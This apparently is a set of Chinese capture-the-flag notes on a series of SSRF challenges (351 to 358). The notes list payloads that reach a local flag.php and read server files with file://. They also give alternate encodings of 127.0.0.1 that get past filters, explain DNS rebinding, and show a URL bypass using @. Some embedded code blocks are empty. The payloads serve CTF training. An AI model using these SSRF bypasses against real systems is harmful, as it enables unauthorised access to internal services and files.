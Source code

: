 351
payload:
post: url=http://127.0.0.1/flag.php
或者使用 file 伪协议去读取文件
post: url=file:///var/www/html/index.php 查看源码


352
url=http://localhost/flag.php
url=http://127.1/flag.php
都可以拿到 flag

353
127.0.0.1
十进制整数：url=http://2130706433/flag.php
十六进制：url=http://0x7F.0.0.1/flag.php
八进制：url=http://0177.0.0.1/flag.php
十六进制整数：url=http://0x7F000001/flag.php

其他方法

缺省模式：127.0.0.1写成127.1
CIDR：url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php

354


355
http://127.1/flag.php


356
要求长度小于3
payload:http://0/flag.php
0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0


357
```php

```
gethostbyname — 返回主机名对应的 IPv4地址
DNS Rebinding
> 在网页浏览过程中，用户在地址栏中输入包含域名的网址。浏览器通过DNS服务器将域名解析为IP地址，然后向对应的IP地址请求资源，最后展现给用户。而对于域名所有者，他可以设置域名所对应的IP地址。当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的。这就造成了DNS Rebinding攻击。

358

正则表达式的意思是以http://ctf.开头，以show结尾。
payload:http://ctf.@127.0.0.1/flag.php?show